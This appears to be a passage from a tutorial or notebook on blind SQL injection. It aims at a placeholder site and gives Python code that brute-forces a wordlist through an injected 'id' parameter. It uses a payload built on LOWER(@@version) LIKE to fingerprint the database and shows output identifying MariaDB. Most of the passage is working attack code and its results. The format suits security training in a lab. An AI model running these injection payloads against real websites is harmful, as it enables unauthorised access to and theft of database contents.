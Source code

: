 ```python
import requests

cookies = {
    # Cookies
}

headers = {
    # headers
}

url = "http://vulnerable.website"
```
<br>

**Function that allows us to perform brute force**
```python
def send_request_with_wordlist(path_to_wordlist, beginnig_of_sql_request, end_of_sql_request):
    info_found = []
    wordlist = open(path_to_wordlist, 'r')
    lines = wordlist.readlines()
    for line in lines:
        id_param = beginnig_of_sql_request  + line.strip() + end_of_sql_request
        params = {
            'id': id_param,
            'Submit': 'Submit'
        }
        response = requests.get(url,params=params,cookies=cookies,headers=headers)
        if response.status_code == 200:
            print("[FOUND] = ", line.strip())
            info_found.append(line.strip())
    
    return info_found
```
<br>
<br>

### 1. Information of the Database

We're going to find out which database we're dealing with: Mysql, PostgreSQL, Oracle, MariaDB, etc. To do this, we'll create a list of the most commonly used SQL databases. 
Let's use the **@@version** or **version()** variable to find this DB info.


```python
paramID = "' or LOWER(@@version) LIKE '%"
shorlist = "wordlist/infoDB.txt"

info_DB = send_request_with_wordlist(shorlist, paramID, "%' -- -")
info_DB
```
```

    [FOUND] =  db
    [FOUND] =  maria
    [FOUND] =  mariadb

    ['db', 'maria', 'mariadb']
```
